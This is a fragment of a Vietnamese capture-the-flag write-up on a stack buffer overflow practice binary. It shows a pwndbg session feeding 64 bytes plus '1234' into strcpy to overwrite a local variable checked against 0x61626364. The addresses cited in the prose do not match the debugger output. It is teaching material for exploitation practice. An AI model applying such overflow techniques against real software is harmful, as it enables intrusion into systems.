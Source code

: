 Vùng dest tại địa chỉ 0xffffccdc , sau khi copy vào từ src có tại địa chỉ 0xffffcf5d , vậy ta cần bao nhiêu byte để đè lên modifed .


Khi thực hiện bằng cách đè 64 byte của buff và thêm 1234 sau để xem và có kết quả này.

```c=1
pwndbg> r aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234
Starting program: /mnt/f/CTF/python3-pwntools/Re_pwn/stack1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234

Breakpoint 1, 0x08048506 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────────────────────────────
 EAX  0xffffccac —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x26f34
 EBX  0x804a000 (_GLOBAL_OFFSET_TABLE_) —▸ 0x8049f14 (_DYNAMIC) ◂— 0x1
 ECX  0xffffcd20 ◂— 0x2
 EDX  0xffffcd44 ◂— 0x0
 EDI  0x0
 ESI  0xffffcd20 ◂— 0x2
 EBP  0xffffcd08 ◂— 0x0
 ESP  0xffffcc90 —▸ 0xffffccac —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x26f34
 EIP  0x8048506 (main+80) —▸ 0xfffe45e8 ◂— 0x0
───────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x8048506 <main+80>     call   strcpy@plt                     <strcpy@plt>
        dest: 0xffffccac —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x26f34
        src: 0xffffcf30 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234'

   0x804850b <main+85>     add    esp, 0x10
   0x804850e <main+88>     mov    eax, dword ptr [ebp - 0x1c]
   0x8048511 <main+91>     cmp    eax, 0x61626364
   0x8048516 <main+96>     jne    main+118                     <main+118>

   0x8048518 <main+98>     sub    esp, 0xc
   0x804851b <main+101>    lea    eax, [ebx - 0x1a04]
   0x8048521 <main+107>    push   eax
   0x8048522 <main+108>    call   puts@plt                     <puts@plt>

   0x8048527 <main+113>    add    esp, 0x10
   0x804852a <main+116>    jmp    main+140                     <main+140>
───────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffcc90 —▸ 0xffffccac —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x26f34
01:0004│     0xffffcc94 —▸ 0xffffcf30 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234'
02:0008│     0xffffcc98 —▸ 0xf7ffd940 ◂— 0x0
03:000c│     0xffffcc9c —▸ 0x80484ce (main+24) ◂— 0x1b32c381
04:0010│     0xffffcca0 ◂— 0x0
05:0014│     0xffffcca4 ◂— 0xc30000
06:0018│     0xffffcca8 ◂— 0x0
07:001c│ eax 0xffffccac —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x26f34
─────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0 0x8048506 main+80
   f 1 0xf7dfffa1 __libc_start_main+241
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> n
```